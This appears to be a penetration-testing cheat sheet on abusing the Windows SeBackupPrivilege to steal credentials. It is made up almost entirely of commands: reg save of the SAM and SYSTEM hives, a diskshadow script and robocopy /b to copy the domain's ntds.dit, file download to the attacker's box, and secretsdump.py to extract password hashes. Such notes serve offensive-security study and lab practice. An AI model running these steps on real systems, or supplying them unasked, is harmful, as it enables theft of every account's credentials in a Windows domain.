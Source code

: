 ```yaml
---
description: >-
  Sensitive files can be accessed (in combination with SeRestore privilege) with
  Built-in commands.
---
```


# SeBackup (with SeRestorePrivilege)

Check the site. \
[https://github.com/gtworek/Priv2Admin/blob/master/SeBackupPrivilege.md](https://github.com/gtworek/Priv2Admin/blob/master/SeBackupPrivilege.md) \
\
Check [SeRestorePrivilege](seretoreprivilege.md) if you need to enable the privilege.&#x20;

## SAM

```bash
# check privileges
> whoami /priv

# copy the sam and system files 
> cd C:\
> mkdir temp
> cd C:\temp
> reg save hklm\sam c:\Temp\sam
> reg save hklm\system c:\Temp\system

# file trasnfer
> download sam
> download system 

# dump sam secrets locally 
Kali> secretsdump.py -sam sam -system system LOCAL
```

## NTDS

```bash
# Create a dsh file
vi ntds.dsh 

set context persistent nowriters
add volume c: alias ntds
create
expose %ntds% z:

```

```bash
# file transfer
> cd C:\
> mkdir temp
> cd C:\temp
> upload ntds.dsh

# copy ntds.dit 
> diskshadow /s ntds.dsh
> robocopy /b z:\windows\ntds . ntds.dit 

# copy system 
> reg save hklm\system c:\Temp\system

# file transfer 
> download ntds.dit 
> download system 

# Dump ntds hashes locally 
secretsdump.py -ntds ntds.dit -system system local 
```

